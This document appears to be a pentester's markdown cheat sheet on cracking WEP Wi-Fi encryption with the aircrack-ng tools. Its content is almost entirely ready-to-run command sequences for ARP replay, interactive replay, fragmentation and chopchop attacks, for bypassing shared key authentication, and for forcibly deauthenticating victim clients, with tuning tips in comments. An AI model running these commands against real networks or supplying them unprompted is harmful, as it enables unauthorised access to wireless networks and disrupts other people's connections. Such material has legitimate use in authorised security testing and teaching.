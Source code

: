 # Wifi - WEP Cracking

## Cracking WEP with a Client

### ARP Request Replay Attack

> Attack the ACCESS POINT

```powershell
airmon-ng start wlan0 3 # only a particular channel : 3
airodump-ng mon0 -c 3 --bssid $AP_MAC -w arpreplay # dump traffic

# Fake authentication for a more reliable attack
aireplay-ng -1 0 -e $AP_SSID -b $AP_MAC -h $ATTACKER_MAC mon0

# ARP replay attack
aireplay-ng -3 -b $AP_MAC -h $ATTACKER_MAC mon0

# Deauthentication
aireplay-ng -0 1 -a $AP_MAC -c $VICTIM_MAC mon0

# Cracking
aircrack-ng arpreplay.cap
```


### Interactive replay attack

> Attack a client to force new packets 0841 attack, or interactive packet replay is a WEP attack that allows for packet injection when ARP replay is not available/working.

```powershell
airmon-ng start wlan0 3 # only a particular channel : 3
airodump-ng -c 3 --bssid $AP_MAC -w clearcap mon0 # dump traffic

# fake authentication for a more reliable attack
aireplay-ng -1 0 -e $AP_SSID -b $AP_MAC -h $ATTACKER_MAC mon0

# interactive replay attack (min arp 68, max arp 86)
aireplay-ng -2 -b $AP_MAC -d FF:FF:FF:FF:FF -f 1 -m 68 -n 86 mon0 # interactive - natural selection of a packet
aireplay-ng -2 -b $AP_MAC -t 1 -c FF:FF:FF:FF:FF:FF -p 0841 mon0  # interactive - force create a packet
# Packet selection (ARP packets met the characteristics): 
# - APs will always repeat packets destined to the broadcast
# - The packet will have the ToDS (To Distribution System) bit set to 1
# answer "y" multiple times

# cracking require ~> 250000 IVs
aircrack-ng -0 -z -n 64 clientwep-01.cap
    * -z: PTW attack
    * -n: number of bits in the WEP key

# backup file with an ARP packet
aireplay-ng -2 -r replay.cap mon0
```


## Cracking WEP without a Client

* Chopchop & Fragmentation attack => PRGA, generate more packets with weak IVs
* Need an AP configured with open system authentication

Prerequisite:

```powershell
# put into monitor mode on our desired channel
airmon-ng start wlan0 3 # only a particular channel : 3
airodump-ng -c 3 --bssid $AP_MAC -w wepcrack mon0 # see no client

# fake authentication attack with association timing (every 60s try to reassociate)
aireplay-ng -1 60 -e $AP_SSID -b $AP_MAC -h $ATTACKER_MAC mon0 # should see a client in airodump
# -1 6000 to avoid a time out.
```


### Fragmentation attack

> Goal: 1500 bytes of PRGA Atheros does not generate the correct packets unless the wireless card is set to the MAC address you are spoofing.

```powershell
# attacker mac must be associated (fake auth)
# Press "Y"
aireplay-ng -5 -b $AP_MAC -h $ATTACKER_MAC mon0

# use our PRGA from the fragmentation attack to generate an ARP request
# SRC_ADDR: 192.168.1.100 
# DST_ADDR: 192.168.1.255, should not exist (broadcast address)
packetforge-ng -0 -a $AP_MAC -h $ATTACKER_MAC -l $SRC_ADDR -k $DST_ADDR -y frag.xor -w inject.cap
# -k: the destination IP i.e. in ARP, this is "Who has this IP"
# -l: the source IP i.e. in ARP, this is "Tell this IP"

# check the packet
tcpdump -n -vvv -e -s0 -r inject.cap

# inject our crafted packet
aireplay-ng -2 -r inject.cap mon0

# crack the WEP key
# Aircrack-ng will auto-update when new IVs are available
aircrack-ng -0 wepcrack

# if 64-bit WEP is used, cracking time < 5 minutes 
# switch to 128-bit keys after 600000 IVs
# use the `-f 4` after 2000000
aircrack-ng -n 64 <capture filename>
```


### KoreK Chopchop attack

> Can't be used for every AP, might work when fragmentation fails Much slower than the fragmentation attack

```powershell
# chopchop attack: -4
# out decrypted: .cap
# out prga: .xor
# Press "Y" (choose a small packet)
aireplay-ng -4 -b $AP_MAC -h $ATTACKER_MAC mon0

# check the packet and find the network addresses
tcpdump -n -vvv -e -s0 -r inject.cap

# use our PRGA from the fragmentation attack
# SRC_ADDR: 192.168.1.100 
# DST_ADDR: 192.168.1.255, should not exist (broadcast address)
packetforge-ng -0 -a $AP_MAC -h $ATTACKER_MAC -l $SRC_ADDR -k $DST_ADDR -y prga.xor -w chochop_out.cap

# inject our crafted packet
aireplay-ng -2 -r chochop_out.cap mon0

# crack the WEP key
aircrack-ng -0 wepcrack
```


## Bypassing WEP Shared Key Authentication SKA

> By default, most wireless drivers will attempt open authentication first. If open authentication fails, they will proceed to try shared authentication.

Prerequisite:

* Authentication: Shared Key
* When Fake Authentication => `AP rejects open-system authentication`

```powershell
# put into monitor mode on our desired channel
airmon-ng start wlan0 3 # only a particular channel : 3
airodump-ng -c 3 --bssid $AP_MAC -w sharedkey mon0

# deauthentication attack on the connected client
# airodump should display SKA under the AUTH column
# PRGA file will be saved as xxxx.xor
aireplay-ng -0 1 -a $AP_MAC -c $VICTIM_MAC mon0
# TO CHECK aireplay-ng -0 10 –a $AP_MAC -c $VICTIM_MAC mon0

# fake authentication attack with association timing (every 60s try to reassociate)
# should display switching to Shared Key Authentication
# If you are using a PRGA  file obtained  from a chopchop attack, make sure that it is at least 144 bytes long
# If you have "Part2:  Association  Not  answering...(Step3)" -> spoof the mac address used to fake auth
aireplay-ng -1 60 -e $AP_SSID -y sharedkey.xor -b $AP_MAC -h $ATTACKER_MAC mon0

# ARP replay attack
aireplay-ng -3 -b $AP_MAC -h $ATTACKER_MAC mon0

# deauthentication attack on the connected client
# speed the ARP attack process using deauth
aireplay-ng -0 1 -a $AP_MAC -c $VICTIM_MAC mon0
# TO CHECK: aireplay-ng –-deauth 1 –a $AP_MAC -h <FakedMac> wlan0mon

# crack the WEP key
aircrack-ng sharedkey.cap
```


## References

* [TODO](TODO)
